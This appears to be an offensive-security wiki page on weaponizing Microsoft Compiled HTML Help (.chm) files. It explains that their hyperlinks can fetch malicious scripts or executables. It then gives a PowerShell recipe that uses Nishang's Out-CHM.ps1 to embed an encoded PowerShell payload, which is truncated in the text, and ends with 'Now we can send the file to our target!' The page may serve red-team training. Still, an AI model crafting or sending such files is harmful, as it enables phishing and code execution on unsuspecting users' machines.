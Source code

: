 # HTML Help Files

## Theory

HTML Help File (.chm) is a file type created by Microsoft around 1997, for software documentation and user manuals. These files are consistent of HTML compressed pages that include indexes and content tables with hyperlinks to all pages. The interesting and dangerous part is that these hyperlinks can link to internal or external resources, **which can be weaponized to download malicious scripts or executables**.

<figure><img src="../../../.gitbook/assets/1 BgCnpJ0gbXdVZPt1hYqx8Q.webp" alt="" width="563"><figcaption><p>.chm file example</p></figcaption></figure>

The files are compressed and deployed in a binary format with the extension. CHM, for Compiled HTML. They can be viewed using the HTML Help program _**(hh.exe)**_ that runs whenever a user clicks on a compiled CHM file.

{% hint style="danger" %}
Though Microsoft stopped supporting the .chm format around 2007, they are still can be opened in modern Windows versions
{% endhint %}

## Practice

{% tabs %}
{% tab title="Powershell" %}
[Nishang](https://github.com/samratashok/nishang) comes with a script called [Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) that we can use to craft our malicious HTML Help File.&#x20;

First, on a VM, download [**Microsoft HTML Help Workshop and Documentation**](https://www.microsoft.com/en-us/download/details.aspx?id=21138)**.** Then generate a malicious file as follow:

```powershell
Import-Module .\Out-CHM.ps1
Out-CHM -payload "powershell -e JABz...." -HCCPATH "C:\Program Files (x86)\HTML Help Workshop"
```

Now we can send the file to our target !
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e" %}
